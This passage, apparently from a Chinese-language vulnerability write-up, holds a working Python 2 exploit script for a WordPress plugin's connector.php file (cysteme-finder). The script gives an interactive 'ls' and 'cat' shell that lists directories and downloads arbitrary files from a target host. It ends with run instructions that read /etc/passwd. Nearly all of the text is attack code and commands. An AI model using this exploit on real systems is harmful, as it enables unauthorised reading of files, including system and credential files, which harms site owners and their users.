 ```bash
    split_path = raw_path.split("/")
    filename = split_path[-1]
    for counter in range(len(split_path) - 1):
        path += "/"
        path += split_path[counter]
    try:
        data = common(path)["files"]
        print
        for counter in range(len(data)):
            if data[counter]["name"] == filename:
                hashstr = data[counter]["hash"]
                conn = httplib.HTTPConnection(TARGET_HOST)
                conn.request("GET", "/wp-content/plugins/cysteme-finder/php/connector.php?wphome=" + path + "&cmd=file&target=" + hashstr + "&download=1")
                print conn.getresponse().read()
    except KeyError:
        print "没有这个文件夹 / No such FOLDER\n"


print "用法示例：ls /etc , cat /etc/passwd。请使用绝对路径。键入'exit'退出。\
    \ne.g.: ls /etc , cat /etc/passwd. Please use ABSOLUTE PATH. Type \
    exit to leave. \n"

while True:
    raw_instruction = raw_input()
    instruction = raw_instruction.split()
    if instruction[0] == "exit":
        exit()
    if len(instruction) > 1:
        if instruction[0] == "ls":
            ls(instruction[1])
        elif instruction[0] == "cat":
            cat(instruction[1])
        else:
            print "未定义相关操作 / Undefined actions"
    else:
            print "缺少参数 / Missing Parameters"

```



#### 运行脚本

根据脚本地址运行命令查看效果

```bash
python2 exp.py

ls /etc
cat /etc/passwd
```

